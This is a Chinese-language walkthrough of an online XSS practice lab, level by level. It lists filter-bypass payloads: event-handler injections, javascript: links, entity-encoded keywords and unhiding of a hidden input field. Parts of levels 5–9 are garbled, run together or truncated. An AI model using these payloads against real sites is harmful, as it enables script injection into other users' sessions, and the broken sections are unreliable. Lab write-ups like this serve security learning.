

# xss平台练习

> 来源为一个在线靶场：
>
> http://test.ctf8.com/level1.php?name=test

## level1

## level2

过滤php函数

(PHP 4, PHP 5, PHP 7)

htmlspecialchars — 将特殊字符转换为 HTML 实体

等于<不能用，这时候一种方法是黑名单绕过，就是不使用被过滤的符号，使用js的事件：

Payload:

">

这样value=" "，不会检查我们的弹窗代码

## level3

Payload: 

' onmouseover=alert(1)//

单引号用来闭合，

### 定义和用法

onmouseover 事件会在鼠标指针移动到指定的对象上时发生。这里指定的就是搜索框了。

## less4

跟3一样，不过要用""进行闭合。

## less5

~~~javascript
$str = strtolower($_GET["keyword"]); //将字符串转化为小写，所以大小写不能绕过
$str2=str_replace(" //
">  //
"><a HrEf="javascript:alert(1)">bmjoker</a>//
"><svg x=" " Onclick=alert(1)>
">

这个直接全部绕过了，有点蒙。。。然后仔细看了源码发现：

Emmmm....

不过正确的绕过方式如下：

~~~
javascrip&#x74;:alert(1)//http://xxx.com //利用注释
javascrip&#x74;:%0dhttp://xxx.com%0dalert(1) //不利用注释
javascrip&#x74;:%0ahttp://xxx.com%0daalert(1) //不利用注释
~~~

## level10

这次加强了对标签的检查：

~~~
$str = $_GET["keyword"];
$str11 = $_GET["t_sort"];
$str22=str_replace(">","",$str11);
$str33=str_replace("<","",$str22);
~~~

我们从这里就可以看到，其实是把输入框给隐藏了，其实还是有输入框的。

Pyload:

~~~
keyword = test&t_sort="type="text"onclick="alert(1)
keyword = test&t_sort="type="text" onmouseover="alert(1)
keyword = test&t_sort="type="text" onmouseover=alert`1`
~~~

我们通过闭合然后是的输入框显示出来，然后用js时间就可以出发xss

